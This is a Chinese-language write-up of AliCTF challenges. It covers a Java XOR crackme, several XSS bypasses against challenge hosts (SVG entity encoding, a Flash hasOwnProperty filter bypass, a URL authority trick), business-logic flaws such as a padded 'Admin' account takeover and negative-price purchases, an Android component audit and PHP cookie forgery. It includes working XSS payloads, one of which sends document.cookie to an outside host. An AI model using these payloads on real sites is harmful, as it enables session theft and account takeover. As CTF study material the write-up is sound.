

# alictf_write_up


#cake

这道题非常简单，使用了key与提交的字符进行了异或，判断之后的字符ascii与预设的数字相等，如果相等就通过，否则throw一个异常，check错误。比较坑的地方是下面的这段代码:

```java
        try {
            v0_1 = this.getKey();
        }
        catch(Exception v0) {
            v0_1 = this.getKey();
            System.arraycopy(v0_1, 0, arg10, v5, v5);
        }
```

仔细看try和catch的“K”是不一样的，try中调用的是父类中的方法，而非当前类的方法，所以key值应该是bobdylan。解码就简单了，直接用预设数字与key异或一下就可以得出正确的字符传了，解码代码如下：

```java
	public static void main(String[] args) {
		// TODO Auto-generated method stub
	       String v0_1 = "bobdylan";
	        int v7 = 15;
	        int v6 = 7;
	        int v1 = 0;
	        int v5 = 5;
        int[] v2 = new int[16];
        v2[0] = 0;
        v2[12] = 14;
        v2[10] = v6;
        v2[14] = v7;
        v2[v7] = 42;
        int v4 = 3;
        try {
            v2[1] = v4;
            v2[5] = 5;
            System.out.println();
        }
        catch(Exception v3) {
            v2[v5] = 37;
            v2[1] = 85;
        }

        v2[6] = v7;
        v2[2] = 13;
        v2[3] = 19;
        v2[11] = 68;
        v2[4] = 85;
        v2[13] = v5;
        v2[9] = v6;
        v2[v6] = 78;
        v2[8] = 22;
        while(v1 < 16) {
                System.out.print((char)((v2[v1] & 255)^(v0_1.charAt(v1 % v0_1.length()&255))));


            ++v1;
        }
	}

}
```

#前端初赛题1

利用svg标签里script能执行html hex的特性再urlencode，网站会把urldecode
>payload:
>http://089d9b2b0de6a319.alictf.com/xss.php?name=%3Csvg%3E%3Cscript%3E%26%23x61%3b%26%23x6c%3b%26%23x65%3b%26%23x72%3b%26%23x74%3b%26%23x28%3b%26%23x31%3b%26%23x29%3b%3C/script%3E


#简单业务逻辑

注册用户Admin+若干个空格(猜测后端使用了trim(username)然后insert到了数据库)
成功注册覆盖掉了Admin的密码  

发现钱不够啊，钱不够就得加啊，用负数买个东西就能加钱了

钱够了就能买flag了


#前端初赛题2

下载swf回来反编译一下
代码是这样

        public class swf extends flash.display.Sprite
        {
            public function swf()
            {
                var loc3:*=undefined;
                var loc4:*=undefined;
                super();
                var loc1:*=root.loaderInfo.parameters;
                var loc2:*=root.loaderInfo.url.indexOf("?");
                if (loc2 !== -1) 
                {
                    loc3 = this.parseStr(root.loaderInfo.url.substr(loc2 + 1));
                    var loc5:*=0;
                    var loc6:*=loc1;
                    for (loc4 in loc6) 
                    {
                        if (!loc3.hasOwnProperty(this.trim(loc4))) 
                        {
                            continue;
                        }
                        delete loc1[loc4];
                    }
                }
                flash.external.ExternalInterface.call("console.debug", loc1.debug);
                return;
            }   

            public function parseStr(arg1:String):Object
            {
                var loc5:*=null;
                var loc1:*={};
                arg1 = unescape(arg1).replace(new RegExp("\\+", "g"), " ");
                var loc2:*=arg1.split("&");
                if (!loc2.length) 
                {
                    return {};
                }
                var loc3:*=0;
                var loc4:*=loc2.length;
                while (loc3 < loc4) 
                {
                    if ((loc5 = loc2[loc3].split("=")).length) 
                    {
                        loc1[this.trim(loc5[0])] = this.trim(loc5[1]);
                    }
                    ++loc3;
                }
                return loc1;
            }   

            public function trim(arg1:String):String
            {
                if (!arg1) 
                {
                    return arg1;
                }
                return arg1.toString().replace(new RegExp("^\\s*"), "").replace(new RegExp("\\s*$"), "");
            }
        }
    }   
    
输入点在flash.external.ExternalInterface.call("console.debug", loc1.debug);
因为第一个变量写死了，那么只能用第二个变量进行xss
然后绕 if (!loc3.hasOwnProperty(this.trim(loc4))) 

查了一下百度hasOwnProperty是个什么鬼
>如果 object 具有指定名称的属性，那么JavaScript中hasOwnProperty函数方法返回 true；反之则返回 false。此方法无法检查该对象的原型链中是否具有该属性；该属性必须是对象本身的一个成员。在下例中，所有的 String 对象共享一个公用 split 方法。下面的代码将输出 false 和 true。 

那就必须使loc4不是loc3的成员  
在乌云drops找到了一篇文章 
http://drops.wooyun.org/papers/948

    0x02 利用Flash的URL解码功能来绕过一些保护机制
    如果你需要将你的vector发送到藏在防火墙的后面受害者（flashvars­可以使用#来达到隐藏自己的目的）又或者想突破一些客户端的XSS防御机制这个方法将会十分的凑效。这一切都基于flash会丢弃一些被URL编码过的无效字符。

    (1)flash会丢弃两个出现在%后面的无效十六进制字符（([^0-9a-fA-F])），比如：

    "%X" or "%="
    (2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

    "%AX" or "%A&"
    小记：有时候ASCII值大于127的一些字符会被转换成问号。当然这是发生在URL跳转的时候。除此之外，被编码过的BOM字符(“%EF%BB%BF”) 也可以用来替换空格。举个例子来说,我们可以把“alert(1)”写成“alert%EF%BB%BF(1)” 。
    最后把这些都组合起来：

    http://0me.me/demo/xss/xssproject.swf?%#js=al%A#e%Xrt(docum%A#ent.doma%A#in);

    http://0me.me/demo/xss/xssproject.swf?%I%R%S%D%%Ljs=loca%Xtion.hr%Yef='jav%Zascri %AXpt:x="<sc%AYript>ale%AZrt(docu%?ment.dom%/ain)</sc%&ript>"'
解析的时候会忽略,但是还在URL里面,他拿字符串来分解的时候，key就不一样了

>test payload:  
>http://8dd25e24b4f65229.alictf.com/swf.swf?%*debug=\%22));alert(1)}catch(e){}//

但是但是 用跳转的方式他没有x到cookie(别问我为什么，我也不知道)
换了个姿势  
>http://8dd25e24b4f65229.alictf.com/swf.swf?%*debug=\%22));{var%20i=new%20Image();i.src=%27http://xssguet.sinaapp.com?/%27%2bescape(document.cookie)}catch(e){}//


#vulnerablitiy


提示说要加载未导出组件，显然不用逆向就知道必然某个组件原来是android:exported=false,要将其设为true。将安装包用 apktool 解开后，打开发现 `.WebActivity`是未导出的，然后修改后重新打包，并签名安装。

运行后，在命令行输入如下命令加载组件：

```
adb shell am start -n com.alictf.secaudit/.WebActivity
```

执行完后，会打开一个网址：

http://monster.alictf.com/subject/wireless/alictf.html



浏览器打开，如提示所说有六段代码，没别的，源码审计。


**代码段1：**

考察webview安全. 将可能出现addJavasriptInterface漏洞的相关系统版本中接口都移除了,同时对url进行了相关校验，没有漏洞。

**代码段2：**

考察pendingIntent 的安全性。刚开始没这么注意，后来当我看到了pendingintent时，我想起了broadanywhere 漏洞。这里`new Intent()`是空的，攻击者可能对它进行控制。

**代码段3：**

考察httpclient.常见的setHostnameVerifier这里设置了强制校验，而其他位置也没有看出什么问题。

**代码段4：**

考察contentprovider的路径遍历。总共也就实现了openFile一个方法，要有漏洞也只能是它了。

**代码段5：**

还是考察webview安全。和1比较也可以看出来，不仅在代码段开头提示组件是导出的，而且还对引入的url,data参数没有校验。

**代码段6：**

这里exec的参数是硬编码，没有问题。


综上所述：key 为 getActivity;openFile;loadDataWithBaseURL.
p.s: 审计代码没搞多久，拼接答案搞了半天 o(╯□╰)o。


#前端初赛题3

分析了一下代码  
主要看到这里就行

		if(this.authority != 'notexist.example.com'){
    	    this.illegal = true;
        	return;
      	}
      
这个和上年那个http的题目差不多,上年的@加到后面,其实加到前面也是可以的  
然后就可以调用第三方的js~
>payload:
>http://ef4c3e7556641f00.alictf.com/xss.php?http://@notexist.example.com:@t.cn/RAbdNcS
##吐槽:这题太简单啊=w=


#简单业务逻辑2

分析代码 
因为md5是不知道的 但是这样也能算出cookie 所以这段肯定是多余没有意义的
删掉多余代码之后,代码变成这样

      function encrypt($plain) {
        $plain = md5($plain);
        $rnd = md5(substr(microtime(),11));
        $cipher = '';
        for($i = 0; $i < strlen($plain); $i++) {    
            $cipher .= ($plain[$i] ^ $rnd[$i]);
        }
        $cipher .= $rnd;
        return str_replace('=', '', base64_encode($cipher));
    }

    function decrypt($cipher) {
        $cipher_1 = base64_decode($cipher);
        if (strlen($cipher_1)!=64){ //判断是否64位
        return 'xx';
        }
        $plain = $cipher_1;
        $ran = substr($plain,32,32);    //取后32位

        $plain = substr($plain,0,32);   //取前32位
        for ($i = 0; $i < strlen($ran); $i++) {     //使用异或覆盖前32位
            $plain[$i] = ($plain[$i] ^ $ran[$i]);
        }
        return $plain;
    }

我们echo echo decrypt(encrypt($cookie);发现是"Guest"的值  
猜测后端是 

	if( md5($cookie)){
		分配登录角色	
	}
	
decrypt("YzMyazFhN2RjYDE7NDU2NmJnNTc8bWQyZDs9ZGtrMD5TVldWUwIIUgIFBgRUUAJRUQVVVwsHBlBSUFYECgpXVw")^$admin[$i].$plain

